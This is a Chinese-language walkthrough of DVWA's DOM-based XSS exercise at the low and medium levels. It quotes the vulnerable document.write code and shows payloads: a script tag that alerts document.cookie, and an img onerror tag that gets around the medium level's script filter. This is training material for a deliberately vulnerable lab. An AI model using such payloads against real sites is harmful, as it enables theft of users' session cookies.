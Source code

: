 没有任何防护  

```bash  
if (document.location.href.indexOf("default=") >= 0) {  
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8); # 函数截取url中指定参数后面的内容  
						document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>"); # 将HTML表达式或JavaScript代码  
						document.write("<option value='' disabled='disabled'>----</option>");  
					}  
					      
					document.write("<option value='English'>English</option>");  
					document.write("<option value='French'>French</option>");  
					document.write("<option value='Spanish'>Spanish</option>");  
					document.write("<option value='German'>German</option>");  
```

将标签写成如下形式：  

```bash  
<http://localhost/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(document.cookie)%3C/script%3E>  
```

即可完成弹框。  

### medium  

```php  
<?php  
  
// Is there any input?  
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {  
    $default = $_GET['default'];  
      
    # Do not allow script tags  
    if (stripos ($default, "<script") !== false) {  
        header ("location: ?default=English");  
        exit;  
    }  
}  
  
?>  
```

不允许`<script>`标签。可以选择其他标签：`<img src=1 onerror=alert(1)>`  

但是直接写在default后面解析会有问题:  

![](/images/dvwa/19.png)  
